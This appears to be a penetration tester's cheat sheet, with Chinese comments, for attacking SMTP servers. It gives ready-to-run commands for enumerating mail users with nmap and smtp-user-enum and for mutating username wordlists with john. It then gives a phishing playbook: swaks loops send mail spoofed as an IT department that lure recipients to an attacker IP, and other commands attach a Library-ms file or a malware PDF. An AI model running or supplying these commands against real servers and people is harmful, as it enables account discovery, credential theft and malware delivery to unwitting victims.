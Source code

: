 # Tips
通常用于用户名爆破(可以使用john single进行词表变异)，或者swaks的客户端钓鱼攻击
# Nmap
```bash
ls -lh /usr/share/nmap/scripts/ | grep smtp
nmap --script=smtp-enum-users 172.16.0.0 -p 25 -sV
```
# smtp-user-enum
```bash
smtp-user-enum -M {VRFY,EXPN,RCPT} -u <USER> -t <IP> 
smtp-user-enum -M VRFY -U users.txt -t 172.16.0.0
$ smtp-user-enum -M RCPT -U users.txt -T server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 172.21.0.0
```
## Use Rule-based Mutating Wordlist
```bash
#对username"友好"的规则single
john -w=users.txt --rules=single --stdout > w_single.txt
/usr/share/wordlists/seclists/username
```

[[4. Client-Side Attack|Send Email via SMTP -- Client-Side Attack]]
# swaks
```bash
$ while read mail; do swaks --to $mail --from IT@targetdomain.com –header "Subject: Credentials / Errors" –body "goto http://attackerIP/" –server x.x.x.x; done < mails.txt

#多目标
swaks -t victim1 -t victim2 ... --from IT@targetdomain.com --header "Subject: Credentials / Errors" –body @body.txt -attach @config.Library-ms --server x.x.x.x --suppress-data -ap

swaks -t $(cat emails | tr '\n' ',' | less) --from IT@targetdomain.com --header "Subject: Credentials / Errors" –body @body.txt -attach @config.Library-ms --server x.x.x.x --suppress-data -ap
```
# sendEmail
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a 
/tmp/malware.pdf

Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```

